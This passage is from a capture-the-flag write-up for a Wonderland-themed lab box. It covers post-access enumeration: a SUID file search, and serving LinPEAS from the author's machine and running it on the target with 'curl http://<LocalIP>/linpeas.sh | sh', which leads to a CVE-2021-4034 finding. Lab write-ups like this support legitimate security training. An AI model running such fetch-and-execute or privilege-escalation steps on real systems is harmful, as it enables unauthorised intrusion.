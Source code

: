```bash
ls -l
  -rw------- 1 root  root     66 May 25  2020  root.txt
  -rw-r--r-- 1 root  root   3577 May 25  2020  walrus_and_the_carpenter.py
```
I was surprised to find the root flag in this user's directory howver we didn't have the permissions to print it to screen. The python file when printed to the screen didn't offer anything in terms of progress but would contain an additional Alice in Wonderland themed story. The following snippit is from that file.
```python
import random
poem = """The sun was shining on the sea..."""
for i in range(10):
  line = random.choice(poem.split("\n"))
  print("The line was:\t", line)
```
Using a command I'd found previously, I searched the host for any files in which the `alice` user would have access to.
```bash
alice@wonderland:~$ find / -perm -u=s -type f 2>/dev/null
```
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/sudo
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su
```
From this output, I couldn't spot any unique binaries of interest however I had a feeling my next move was going to be there. I tested the `wget` and `curl`,  commands to see if they were accessible for the user-- which they were. I got to work trying to get `Linpeas.sh` onto the target to get a vulnerability scan going. On my local machine I started up a python3 based HTTP server.
```bash
python3 -m http.server 4443 --directory <sharedfile>
```
On the target machine I requested the Linpeas file.
```bash
curl http://<LocalIP>/linpeas.sh | sh
```
The script got to work and I analysed it's output data. What stuck out most was the following CVE check.
```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034 
```